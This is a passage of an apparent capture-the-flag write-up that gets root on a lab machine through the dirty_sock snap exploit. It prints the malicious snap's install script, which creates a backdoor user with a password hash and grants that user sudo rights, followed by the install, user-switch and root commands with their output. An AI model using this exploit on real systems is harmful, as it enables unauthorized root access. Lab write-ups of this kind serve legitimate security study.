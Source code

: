 ```none
└─$ strings newnewnew.snap              
hsqs
#!/bin/bash
useradd dirty_sock -m -p '$6$sWZcW1t25pfUdBuX$jWjEZQF2zFSfyGy9LbvG3vFzzHRjXfBYK0SOGfMD1sLyaS97AwnJUs7gDCY.fg19Ns3JwRdDhOcEmDpBVlF9m.' -s /bin/bash
usermod -aG sudo dirty_sock
echo "dirty_sock    ALL=(ALL:ALL) ALL" >> /etc/sudoers
name: dirty-sock
version: '0.1'
summary: Empty snap, used for exploit
description: 'See https://github.com/initstring/dirty_sock
architectures:
- amd64
confinement: devmode
grade: devel
7zXZ
7zXZ
        $l5
```

From here, we can transfer the snap package to the target system and execute it with `sudo`.

```none
sudo /usr/bin/snap install --devmode newnewnew.snap
```

Then we need to switch to the `dirty_sock` user

```none
[brucetherealadmin@armageddon shm]$ su - dirty_sock
Password: 
Last failed login: Mon Jul 26 04:50:05 BST 2021 on pts/0
There was 1 failed login attempt since the last successful login.
[dirty_sock@armageddon ~]$ id
uid=1001(dirty_sock) gid=1001(dirty_sock) groups=1001(dirty_sock) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
```

And, lastly, get `root` access...

```none
[dirty_sock@armageddon ~]$ sudo -i

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for dirty_sock: 
[root@armageddon ~]# id
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
[root@armageddon ~]# wc -c /root/root.txt
33 /root/root.txt
```
